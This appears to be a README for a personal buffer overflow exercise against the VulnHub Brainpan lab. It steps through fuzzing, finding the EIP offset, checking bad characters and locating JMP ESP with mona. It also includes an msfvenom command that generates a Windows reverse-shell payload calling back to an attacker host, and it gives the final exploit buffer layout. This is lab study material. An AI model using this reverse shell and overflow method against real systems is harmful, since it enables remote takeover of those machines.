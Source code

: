 # bufferOverflow

This is my first BufferOverflow exerise - VulnHub Brainpan

Tool: Immunity Debugger

### Step 1 - Find the EIP 
  using fuzzing to locate the buffer overflow point - the EIP address
  
  Create an array of buffers, from 1 to 5900, with increments of 100. Send the buffer to the 
  
  target until received system crash  and checked the size of buffers that made the system crash

  Program: 1-fuzzer_eip.py
  
### Step 2 Control the EIP address 
 
  2.1 by binary tree analysis

  2.2 using metasploit
  Generate a pattern of string and send to the system. check the EIP 
  
    locate the pattern_create
    
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999
    
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 9999 -q 39694438
    
  Program: 2-controlling-eip.py
    
   
### Step 3 Locating Space and prepare the shellCode

    Finding the ESP addess 
    buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
  
  Program: 2-controlling-eip.py

### Step 4 Check Bad Characters

    Send \x01...\xff to the system and check which char(s) have been truncated
    Program: 3-controlling-eip.py
  

### Step 5 Locate the JMP ESP
    
As the ESP address can be changed during each execution, we need to find a "JMP ESP" instrcution to go to the ESP location 
 
    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
  
    JMP ESP address => \xe4\xff
    
### Step 6 check any memory protections such as DEP adn ASLR
    
    Find the program or DLL that can be used for their "JMP ESP" instruction.
    
    Immunity Debugger Command: !mona modules
    
   
  Immunity Debugger Command: !mona find -s "\xe4\xff" -m <program name>
                         e.g. !mona find -s “\xff\xe4” -m "libspp.dll"
  

### Step 7 Check the offset (btw ESP and playload)     

After the ESP address, check is there any overlapping between ESP and the playload area. Offset may required. 
Secondly, add NoP before place the shell code to avoid the shell code corruption during the GetPC routine overwrite a few bytes on the stack.   

### Step 8 Generating ShellCode using Metasploit

    Metasploit Command: msfvenom -l payloads
  
    Metasploit Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443  EXITFUNC-thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
  
    -f format
    -e encode
    -b exclude character 
    EXITFUNC-thread exit the function after exploit which makes the program can still running for next exploit.
 
 ### Step 9 Sending the ShellCode 
 
    filler = "A" * 780
    eip = "\x83\x0c\x09\x10" <- this address is pointing the the JMP ESP instruction set
    offset = "C" * 4
    nops = "\x90" * 10 <- shell code corruption
    inputBuffer = filler + eip + offset + nops + shellcode
 
  Program: 4-expolit-lin.py
  
  Program: 4-expolit-win.py
 
  
